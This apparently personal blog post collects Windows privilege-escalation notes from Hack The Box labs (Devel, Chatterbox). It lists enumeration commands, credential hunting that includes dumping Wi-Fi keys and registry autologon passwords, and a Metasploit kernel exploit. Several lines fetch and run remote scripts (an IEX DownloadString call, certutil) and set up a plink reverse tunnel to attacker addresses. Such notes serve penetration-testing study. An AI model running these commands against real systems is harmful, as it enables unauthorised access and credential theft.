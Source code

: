 ```yaml
---
layout: post
title: "windows privesc"
keywords: "windows, privesc, privilige escalation"
---
```


#### Resources

1. [https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources){:target="_blank"}
1. [Windows PrivEsc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation){:target="_blank"}

#### System enumeration

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

hostname

wmic qfe get Caption,Description,HotFixID, InstalledOn
wmic logicaldisk get caption,description,providername
```

#### User enumeration

```
whoami
whoami /priv
whoami /groups

net user
net user <user>
net localgroup
net localgroup <group>
```

#### Network enumeration

```
ipconfig /all

arp -a

route print

netstat -ano
```

#### Password Hunting
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords)

```
findstr /si password *.txt *.ini *.config

dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

#### AV enumeration

```
sc query windefend
sc queryex type= service

netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
```

#### Automated Tools

1. Executables: [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS){:target="_blank"} / [Seatbelt]( https://github.com/GhostPack/Seatbelt){:target="_blank"} / [Watson](https://github.com/rasta-mouse/Watson){:target="_blank"} / [SharpUp](https://github.com/GhostPack/SharpUp){:target="_blank"}
1. Powershell: [Sherlock](https://github.com/rasta-mouse/Sherlock){:target="_blank"} / [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc){:target="_blank"} / [JAWS](https://github.com/411Hall/JAWS){:target="_blank"}
1. Other: [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester){:target="_blank"} / [Metasploit Local Exploit Suggester](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/){:target="_blank"}

```
> cmd /c powershell Invoke-WebRequest http://10.10.14.140/<file> -OutFile <file>

meterpreter > cd c:\\windows\\temp
meterpreter > upload /opt/winpeas/winPEAS.exe
meterpreter > shell
> winPEAS.exe

meterpreter > cd c:\\windows\\temp
meterpreter > upload /opt/PowerUp.ps1
meterpreter > shell
> powershell -ep bypass
powershell > Import-Module PowerUp.ps1
powershell > Invoke-AllChecks

> powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”

meterpreter > run post/multi/recon/local_exploit_suggester
```
- https://recipeforroot.com/advanced-powerup-ps1-usage/
- https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/
- https://www.hackingarticles.in/window-privilege-escalation-automated-script/

#### Kernel Exploits

Hack The Box: Devel

```
meterpreter > background
> use post/multi/recon/local_exploit_suggester
> set session 1
> run

[+] 0.0.0.0 - use exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated

> use exploit/windows/local/ms10_015_kitrap0d
> set session 1
> set lhost tun0
> set lport 4445
> run
```

#### Passwords & Port Forwarding

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

Hack The Box: Chatterbox

```
> whoami
> net users
> net user <user>

> reg query HKLM /f password /t REG_SZ /s
> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

DefaultUserName    REG_SZ    <user>
AutoAdminLogon     REG_SZ    1
DefaultPassword    REG_SZ    *******
```

```
> sudo vim /etc/ssh/sshd_config
# Change PermitRootLogin prohibit-password to PermitRootLogin yes

> service ssh restart
> service ssh start
```

```
> netstat -ano
TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4

# Download plink.exe (https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
>> certutil -urlcache -f http://10.10.14.51:8000/plink.exe plink.exe
>> plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.51 -v
>>> winexe -U Administrator%Welcome1 //127.0.0.1 "cmd.exe"
```